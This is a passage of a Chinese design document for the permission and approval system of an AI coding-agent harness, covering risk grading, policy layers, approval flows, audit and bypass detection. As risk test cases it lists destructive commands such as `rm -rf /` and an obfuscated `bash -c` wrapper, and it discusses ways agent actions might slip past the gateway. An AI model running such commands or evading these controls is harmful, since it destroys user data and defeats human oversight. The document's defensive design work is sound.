








# 卷 06 实现技术方案：权限与审批系统（Permission & Approval）

> 定位：Phase B（怎么做）——把 Phase A 卷 06 的选定分支（D-PERM-1…12）落为可施工的风险判定算法、策略引擎、动作网关、审批编排与审计回放。
> 上游契约：`docs/harness/06-permission-system.md`（唯一事实源）、`docs/harness/07-sandbox-security.md`（执行层围栏）、`docs/harness/17-hooks-system.md`（钩子与权限的相对顺序）、`docs/harness/30-security-engineering.md`（威胁模型）。
> 竞品证据：`research/competitors/02-opencode.md`（ask/allow/deny 规则链、批量授权传播、级联拒绝）、`03-codex.md`（denied-read ⇒ 禁脱沙箱不变式、execpolicy 前缀规则与 amendment 回写）、`04-deepseek-harness.md`（封闭审批结果集与 fail-closed）、`05-minimax-cli.md`（硬拦截注册表不受 bypass 影响、三步判定流）、`08-gemini-cli.md`（五层信任带 + 小数优先级、审批结果沉淀为带范围规则、策略完整性哈希）。
> 全局约束：H-008（权限是决策层、沙箱是执行层，纵深防御）；全部 Java 形态遵守 `.qoder/rules/` 五条规范。

---

## 1. 实现目标与范围

### 1.1 目标

1. **参数级风险分级**：R0–R5 判定必须落在「工具 + 参数」粒度，`rm -rf /` 与 `ls` 同为命令工具但结论不同（D-PERM-1）。
2. **单一动作网关**：所有副作用必须构造 `ActionDescriptor` 并经决策链；插件、MCP、脚本、后台任务同样受限；未登记副作用由审计扫描发现（D-PERM-3、D-PERM-11）。
3. **四值决策 + 完整求值轨迹**：`ALLOW / ALLOW_ONCE / ASK / DENY`，附原因、命中规则与可解释链路（D-PERM-4、REQ-PERM-3）。
4. **通道无关审批编排**：CLI / 桌面 / 远程 / IM 一处编排、多端呈现；超时按策略 `deny` 或 `escalate`；批量授权与级联拒绝语义明确（D-PERM-5、D-PERM-6）。
5. **技术强制企业基线**：锁定层级不可被下级覆盖，违规尝试阻断并生成安全事件（D-PERM-10）。
6. **敏感路径强校验不可 bypass**：模式、规则、钩子、插件、审批都不能放宽（REQ-PERM-11 落地）。

### 1.2 不解决

- 隔离执行本身（卷 07）：本方案只产出 `SandboxRequirement` 并消费 `sandbox.denied` 事件。
- 工具实现与管线内部（卷 05 实现方案）：本方案只定义第 4 步（权限决策）与第 5 步（权限后钩子）的契约。
- 企业身份、角色、SSO/SCIM（卷 24）：本方案消费其 `actor` 与 `role` 判定结果。
- 钩子匹配与阻断机制（卷 17）：本方案只约定「钩子先于权限、只能收窄不能放宽」的顺序与复核点。

### 1.3 上下游依赖

| 方向 | 依赖 | 契约 |
| --- | --- | --- |
| 上游 | 卷 05 `ToolRuntime` 第 4 步 | `ActionDescriptor`（改写后参数构造）+ 审批等待句柄 |
| 上游 | 卷 17 钩子引擎 | 改写后的最终参数（必须重新进入敏感校验与风险判定） |
| 上游 | 卷 24 企业 IAM | `actor`、`role`、租户策略订阅通道 |
| 下游 | 卷 07 沙箱 | `SandboxRequirement`（档位 + 围栏）与 `sandbox.denied` 回执 |
| 下游 | 卷 16 事件总线 | `permission.*` 事件族（含审计哈希链锚点） |
| 下游 | 卷 19 持久化 | `oc_permission_decision` / `oc_approval` / `oc_grant_memory` / `oc_policy` |
| 下游 | 卷 03 上下文 | 审批预views 与会话消息关联引用（供审批者理解意图） |

### 1.4 模块落点（卷 27 §4.1 权威名；v1 列为迁移来源）

| 内容 | 目标模块 | v1 仓模块（迁移来源） | 说明 |
| --- | --- | --- | --- |
| `ActionDescriptor` / `PermissionDecision` / `RiskClass` / `PolicyRule` / SPI 接口 | `harness-contract`（`permission` 包） | `open-coding-core-api` | 纯契约，零 Spring |
| `PermissionEngine` / `RiskAssessor` / `CommandAstParser` / `PathNormalizer` / `PolicyEvaluator` / `DecisionRecorder` / `BypassScanner` | `harness-kernel/kernel-permission` | `open-coding-core-agent` | 内核决策实现（零 IO） |
| `SafetyGuard` 与编译期敏感基线常量 | `harness-kernel/kernel-permission`（`permission.safety`） | `open-coding-core-agent` | 不可覆盖校验 |
| 策略存储（PG）/ 授权记忆（Redis + PG）/ 审批持久化 | `harness-platform/platform-persistence` + `harness-platform/platform-runtime-store` | `open-coding-domain` + `open-coding-infrastructure` | DB 版 SPI 实现，`@ConditionalOnMissingBean` |
| 审批多通道适配（CLI / WS 桌面 / A2A / IM） | `harness-host/host-protocol` + `harness-host/host-app` | `open-coding-interfaces` + `open-coding-application` | 通道无关协议 |
| 管理面策略下发与审计查询 | `harness-host/host-protocol`（REST） | `open-coding-interfaces` | `/api/v1/policies`、`/api/v1/audit/events` |

> 模块名桥接（R07 收敛）：目标名以卷 27 §4.1/§4.3 为准；v1 名列仅供迁移期对账，**构建与 `-pl` 选择器只允许目标名**（对照见 impl/01 §1.4、卷 27 §4.8.1）。

### 落地核对（R07：模块 / 顺序 / 批次 / 门禁 / I-* 落点）

- **实施顺序（卷 27 §4.5）**：第 7 步「权限决策链（风险映射 + ASK）+ 审批（CLI）」，依赖第 4 步（工具运行时的 `ActionDescriptor` 出参）。审批多通道（WS/A2A/IM）随第 8 步（协议面）与第 15/20 步增量接入，不阻塞决策链。
- **数据批次（卷 27 §4.4）**：`oc_policy`、`oc_policy_version`、`oc_permission_decision`、`oc_approval`、`oc_grant_memory`、`oc_audit_event`、`oc_decision_replay` → **B3**（权限（策略/决策/审批/记忆）+ 审计），依赖 B1。
- **门禁映射（卷 27 §4.6）**：`kernel-permission` 单测 → 「单元测试 + 覆盖率门」；策略/记忆/审批持久化 → 「集成测试」；决策回放一致性（§⑪ 用例）→ 「契约测试」+「集成测试」；`BypassScanner` 语料 → 「安全红队（增量用例）」。
- **I-* 落点**：I-PERM-1 → `kernel-permission`（`RiskAssessor` + `CommandAstParser` + 配置化模式集）；I-PERM-2 → `kernel-permission`（`PolicyEvaluator` 五层带 + `PolicyTier`）；I-PERM-3 → `kernel-permission`（动作网关 + `BypassScanner`）+ CI 架构测试（`scripts/ci/*`）+ `platform-sandbox`（围栏）；I-PERM-4 → `platform-runtime-store`（会话级 Redis）+ `platform-persistence`（`oc_grant_memory` 项目级以上）；I-PERM-5 → `kernel-permission`（审批编排）+ `platform-persistence`（outbox / `oc_approval`）+ `host-protocol`（多通道回收）；I-PERM-6 → `kernel-permission`（`SafetyGuard` 首步短路）+ `platform-sandbox`（fd 复核）。

---

## 2. 功能需求清单（REQ-PERM）

| ID | 需求描述 | 来源 | 优先级 | 验收要点 |
| --- | --- | --- | --- | --- |
| REQ-PERM-1 | R0–R5 风险分级落到参数级：命令经 AST 解析映射风险类，路径经规范化分类 | 卷 06 §4.1、REQ-PERM-1 | P0 | 30+ 判定用例（含 `rm -rf /`、`ls`、`push --force`） |
| REQ-PERM-2 | 无法解析 / 部分解析的命令取高（≥ R2；不可解析取 R4），且**禁止规则沉淀** | 卷 06 §4.1 + 本方案 §3.7.2 | P0 | `bash -c "$(echo cm0=)"` 类用例判定为 R4 且仅 ALLOW_ONCE |
| REQ-PERM-3 | 四值决策 + 原因 + 命中规则引用 + 求值轨迹，可回答「哪条策略、哪条规则、为什么」 | 卷 06 D-PERM-4、REQ-PERM-3 | P0 | `permission.explain` 输出含完整轨迹 |
| REQ-PERM-4 | 求值规则：拒绝优先、更具体者覆盖更宽泛者、强制项不可被下级放宽 | 卷 06 §4.2 求值规则 ① ② ③ | P0 | 三组冲突用例（含 `permission.override.denied`） |
| REQ-PERM-5 | 策略源优先级：admin > workspace > user > session > 默认；同级按带内小数优先级排序 | 卷 06 §4.2；gemini-cli 五层信任带 + `1 + priority/1000` `[E1] packages/core/src/policy/policies/read-only.toml` | P0 | 五层各一条冲突用例；同层精度用例 |
| REQ-PERM-6 | 规则模型：谓词（工具 / 资源 / 路径模式 / 命令模式 / 参数正则 / 时段 / 环境 / 风险类）+ 动作 + 到期 + 记录人 | 卷 06 D-PERM-7、§10 规则语言 | P0 | 每条谓词字段一条命中/未命中用例 |
| REQ-PERM-7 | 路径模式匹配：gitignore 风格 glob（`**` 跨层级、`*` 不跨分隔符），禁用否定模式，匹配前双向规范化 | 卷 06 §10；codex `WritableRoot` 元数据保护 `[E1]` | P0 | 12 类路径别名（符号链接/短名/UNC/ADS）用例 |
| REQ-PERM-8 | 命令模式匹配：前缀策略按 arity 归约（flags 不计 token、最长前缀获胜） | opencode `BashArity.prefix` 约 140 条字典 `[E1] packages/opencode/src/permission/arity.ts` | P1 | `git checkout main` 命中 `git checkout` 规则用例 |
| REQ-PERM-9 | 人工审批编排：通道无关请求结构 + 预览（diff / 命令全文 / 网络目标）+ 责任记录 | 卷 06 D-PERM-5、§4.3 | P0 | CLI 与桌面双通道同一 `approvalId` 响应用例 |
| REQ-PERM-10 | 审批超时：默认 5 分钟；超时动作默认 `deny`，企业可配 `escalate` | 卷 06 §10 | P0 | 超时用例 + 升级链用例 |
| REQ-PERM-11 | 批量授权传播：`always` 按范围写入记忆后，回溯放行同会话**全部资源均被放行**的待审批请求 | opencode `always` 传播（重算后全部 resource 为 allow 才放行）`[E1] packages/core/src/permission.ts:250-283` | P1 | 混合资源待审批请求不被误放行用例 |
| REQ-PERM-12 | 级联拒绝：用户显式「终止」时，同会话所有待审批请求一并置为拒绝并中断回合 | opencode `reject` 级联 + 中断 `[E1]`；卷 06 D-PERM-5 | P1 | 三挂起请求同时终结用例 |
| REQ-PERM-13 | 审批结果幂等：重复应答返回原结果；审批请求持久化，进程重启后仍可回应 | 卷 06 §7 可靠性 | P0 | 重启续答用例 |
| REQ-PERM-14 | 授权记忆六级范围（once / session / project / workspace / pattern / dir）可写、可查、可撤销，撤销立即生效 | 卷 06 D-PERM-6、§8 DoD-4 | P0 | 六级各一条撤销生效用例 |
| REQ-PERM-15 | 六档权限模式，模式是起点且**只能被收窄**，切换生成事件并记录当时模式 | 卷 06 D-PERM-9、§4.5 | P0 | 模式收窄用例 + `permission.mode.changed` 审计 |
| REQ-PERM-16 | 企业基线技术强制：锁定层级不可覆盖、版本化、变更需审批；违规尝试阻断 + 安全事件 | 卷 06 D-PERM-10、§8 DoD-6 | P0 | 覆盖尝试被阻断并记 `permission.override.denied` |
| REQ-PERM-17 | 策略完整性：策略文件哈希校验（`MATCH` / `MISMATCH` / `NEW`），篡改不被静默接受 | gemini-cli `PolicyIntegrityManager` `[E1] packages/core/src/policy/integrity.ts` | P1 | 篡改用例：启动拒绝 + 安全事件 |
| REQ-PERM-18 | 敏感路径强校验：模式 / 规则 / 钩子 / 插件 / 审批均不可放宽；执行期复核防 TOCTOU | 卷 06 REQ-PERM-11；codex denied-read 不变式 `[E1] codex-rs/core/src/tools/sandboxing.rs:239-307` | P0 | 5 类绕过尝试全部被拒（§3.7.6） |
| REQ-PERM-19 | fail-closed：审批通道不可用 / 应答者缺失 / 应答不合规 → 一律拒绝，不静默放行 | deepseek `ApprovalOutcome.unavailable` + 调用方必须 fail closed `[E1] docs/subsystems/approval.md`；卷 06 §7 | P0 | 通道断开用例：ASK 降级为 DENY |
| REQ-PERM-20 | 非交互形态下 `ask` 强制降级为 `deny` | gemini-cli `nonInteractive` 语义 `[E1] packages/core/src/policy/policy-engine.ts` | P1 | 无头模式审批用例 |
| REQ-PERM-21 | 决策回放：记录动作描述 + 各层策略版本 + 求值轨迹 + 上下文摘要引用，提供重放命令 | 卷 06 D-PERM-12、§8 DoD-7 | P0 | 重放结果与原决策一致用例 |
| REQ-PERM-22 | 审计留痕：每次 allow / deny 追加不可变记录（含 actor、mode、命中规则、`prev_hash`），仅追加 | 卷 06 §4.4 不可变审计、§7 | P0 | 哈希链校验 + 不可修改断言 |
| REQ-PERM-23 | 旁路检测：审计扫描发现未登记副作用，生成 `permission.bypass.detected` | 卷 06 D-PERM-11、§8 DoD-8 | P1 | 构造绕过管线写入的副作用被检出 |
| REQ-PERM-24 | 与沙箱联动：权限放行不等于可执行；沙箱拒绝生成 `sandbox.denied` 安全事件 | 卷 06 §4.5、卷 07 | P0 | 权限 ALLOW + 沙箱围栏拦截用例 |
| REQ-PERM-25 | denied-read 存在时禁止脱沙箱执行（提权/规则/用户选择均不能绕过） | codex `unsandboxed_execution_allowed` `[E1]` | P0 | 提权请求被静默降级为默认沙箱用例 |
| REQ-PERM-26 | 升级链：会话所有者 → 团队管理员 → 平台管理员，带 SLA 与申请理由留痕 | 卷 06 D-PERM-8 | P2 | 升级链三级跳转用例 |
| REQ-PERM-27 | 审批通知去重：同动作 30 秒内合并为一条（窗口配置化） | 卷 06 §10 | P2 | 高频重复请求合并计数用例 |
| REQ-PERM-28 | 危险操作强制「不留存」：`git reset --hard`、`push --force` 类动作禁止写入 `always` 记忆 | 卷 06 D-PERM-4 `ALLOW_ONCE`；codex `Forbidden` 分支语义 `[E1]` | P0 | 审批界面不提供 `always` 选项用例 |
| REQ-PERM-29 | 规则可移除与过期：到期规则自动失效并生成事件，规则变更审计可查 | 卷 06 D-PERM-7、§8 DoD-5 | P1 | 过期扫描用例 |
| REQ-PERM-30 | 审批请求**不携带完整敏感参数**（仅摘要 + 引用），避免审批通道成为泄露面 | deepseek `ApprovalRequest` 刻意不含工具参数 `[E1] docs/subsystems/approval.md` | P1 | 请求体扫描无密钥串用例 |

---

## 3. 技术方案选型（M×N 比选）

评分口径沿用 README §4：F 30%、U 20%、S 25%、M 25%，满分 10，加权总分 100。

### 3.1 维度一：参数级风险判定实现（I-PERM-1）

| 分支 | 描述 | F | U | S | M | 加权 |
| --- | --- | --- | --- | --- | --- | --- |
| B1 纯静态工具级标注 | 工具自带风险级，不看参数 | 4 | 6 | 9 | 7 | 62.5 |
| B2 纯正则规则集 | 参数正则匹配高危模式 | 7 | 6 | 6 | 6 | 63.0 |
| **B3 归一化 + 命令 AST 解析 + 配置化模式集 + 风险地板取高 + 企业资产库扩展点** | 数据驱动、可解释、可扩展 | 9 | 8 | 8 | 9 | **85.5** |
| B4 LLM 分类器判定风险 | 用模型判风险 | 6 | 4 | 4 | 5 | 48.5 |

**被放弃分支代价**：B1 无法区分 `ls` 与 `rm -rf`（D-PERM-1 淘汰理由）；B2 正则易漏（引号、变量、编码包装）；B4 不可复现、不可离线审计、有被提示注入诱导的风险（deepseek 的 auto-review 文档自陈其局限 `[E1]`），仅可作为 P3 建议器。
**回退触发**：若命令 AST 解析器在目标平台（Windows `cmd` / PowerShell）解析覆盖率低于阈值（配置 `open-coding.permission.risk.ast-coverage-floor`，默认 0.7），对该平台整体回退为「B3 但解析结果视为 PARTIAL」——即一律取高 + 强制 ASK，不降级为 B2。

### 3.2 维度二：策略求值模型（I-PERM-2）

| 分支 | 描述 | F | U | S | M | 加权 |
| --- | --- | --- | --- | --- | --- | --- |
| B1 顺序 `findLast`（后写获胜） | 对齐 opencode `evaluate` | 6 | 6 | 9 | 5 | 66.5 |
| B2 分层带 + 带内小数优先级 + 拒绝优先聚合 | 对齐 gemini-cli 五层信任带 | 9 | 8 | 8 | 9 | **85.5** |
| B3 DAG 依赖求值（规则互相引用） | 表达力最强 | 8 | 6 | 5 | 5 | 61.5 |

**被放弃分支代价**：B1 依赖配置文件顺序，跨来源合并时顺序不稳定（opencode 需额外保留「用户 key 顺序」`[E1]`），企业基线的「不可覆盖」语义无处安放；B3 引入循环检测与求值顺序不确定性，审计轨迹难解释。
**回退触发**：若带内小数优先级在复杂租户下出现精度耗尽（同带同优先级规则冲突频次超阈值），启用「规则 ID 字典序」作为最终决胜键并生成策略告警（不改变分层模型）。

### 3.3 维度三：单一入口的强制手段（I-PERM-3）

| 分支 | 描述 | F | U | S | M | 加权 |
| --- | --- | --- | --- | --- | --- | --- |
| B1 仅约定「必须走网关」 | 文档级约束 | 4 | 7 | 9 | 4 | 58.0 |
| B2 网关 + 审计旁路扫描（事后） | 检测未登记副作用 | 7 | 7 | 8 | 7 | 72.5 |
| **B3 网关 + 编译期/架构测试约束 + 审计旁路扫描 + 沙箱围栏兜底** | 事前-事中-事后三层 | 9 | 7 | 8 | 9 | **84.0** |

**被放弃分支代价**：B1 对插件与 MCP 无效（新入口天然绕过）；B2 只能事后发现，阻断不了已发生的副作用。
**回退触发**：若架构测试在某些语言/进程外插件（非 JVM）无法约束，则该来源降级为「网关 + 沙箱围栏强制 + 高频旁路扫描」（扫描周期从默认 5 分钟缩到 30 秒）。

### 3.4 维度四：授权记忆存储（I-PERM-4）

| 分支 | 描述 | F | U | S | M | 加权 |
| --- | --- | --- | --- | --- | --- | --- |
| B1 全部 Redis | 快，但持久性与审计弱 | 6 | 9 | 6 | 5 | 64.5 |
| B2 全部 PG | 强一致，但会话热路径延迟高 | 8 | 6 | 8 | 8 | 76.0 |
| **B3 会话级 Redis（热态）+ 项目级及以上 PG（持久化）+ 撤销双写失效** | 热冷分层 | 9 | 8 | 8 | 9 | **85.5** |

**被放弃分支代价**：B1 会话级授权在 Redis 故障时丢失，导致重复询问（可用性回退而非安全问题）；B2 每次决策都打 PG，P95 延迟难达 ≤ 10ms。
**回退触发**：Redis 不可用 → 会话级记忆降级为「内存 + 不可持久」并显式提示（不静默转为 ALLOW）。

### 3.5 维度五：审批编排与阻塞模型（I-PERM-5）

| 分支 | 描述 | F | U | S | M | 加权 |
| --- | --- | --- | --- | --- | --- | --- |
| B1 进程内 `Deferred` 阻塞（无持久化） | 简单，进程重启丢审批 | 6 | 7 | 6 | 5 | 60.5 |
| B2 纯事件驱动（不阻塞工具调用） | 无阻塞，但工具结果时序错乱 | 6 | 5 | 6 | 6 | 57.5 |
| **B3 阻塞等待（虚拟线程）+ 审批 outbox 持久化 + 幂等应答 + 多通道回收** | 时序清晰 + 可恢复 | 9 | 8 | 8 | 9 | **85.5** |

**被放弃分支代价**：B1 违反卷 06 §7「审批请求持久化（进程重启后仍可见并可回应）」；B2 让工具调用与审批结果解耦，模型侧无法表达「等待中」状态。
**回退触发**：若审批通道全部不可用且策略非 `escalate`，立即按 fail-closed 返回 DENY 并释放虚拟线程（不无限阻塞）；阻塞上限 = 审批超时 + 宽限，硬上限配置化。

### 3.6 维度六：敏感路径强校验实现（I-PERM-6）

| 分支 | 描述 | F | U | S | M | 加权 |
